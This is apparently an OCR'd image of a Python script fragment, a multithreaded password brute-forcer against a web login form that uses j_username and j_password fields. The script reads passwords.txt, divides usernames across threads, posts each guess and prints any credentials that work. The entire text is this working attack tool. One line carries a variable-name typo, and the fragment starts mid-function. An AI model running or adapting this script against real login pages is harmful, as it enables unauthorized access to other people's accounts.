 ```python
		f = open("passwords.txt", "r")
		[pass_list.append(p.replace("\n","")) for p in f]
		pass_list.reverse()
		f.close()
		while len(pass_list) > 0:
			passwd = pass_list.pop()
			data = {
	 			'j_username': user,
				 'j_password': passwd,
				 'from': "/",
				 'Submit': "Sign+in"
			}
			r = requests.post(login_url, data=data)
			if not password_found:
				if "Invalid username" not in r.text:
					print("[+] Credentials found -> %s:%s" % (user,passwd))
					password_found = True
					end_time = time.time() - initial_time
					end_mins = int(end_time / 60)
					end_secs = int(end_time % 60)
					print("[+] Time elapsed: %s min %s s" % (end_mins,end_secs))
			else:
				return
if __name__ == '__main__':

	initial_time = time.time()
	# Initialize the list of lists
	for i in range(n_threads):
		divided_list.append([])
	if len(user_list) > n_threads:
    		n_treads = len(user_list)

	# Divide the user list in the number of threads
	for i in range(len(user_list)):
		if i >= n_threads:
			index = i % n_threads
			divided_list[index].append(user_list[i])
		else:
			divided_list[i].append(user_list[i])

	l1 = pwn.log.progress("Brute Force")
	l1.status("Trying some passwords...")
	for t in range (n_threads):
		try:
			t = threading.Thread(target=makeRequest, args=(divided_list[t],))
			t_list.append(t)
			t.daemon = True
			t.start()
		except Exception as e:
			print("An error has ocurred launching the threads: %s" % e)
	for t in t_list:
		t.join()
	if password_found:
		l1.success("Password found")
```
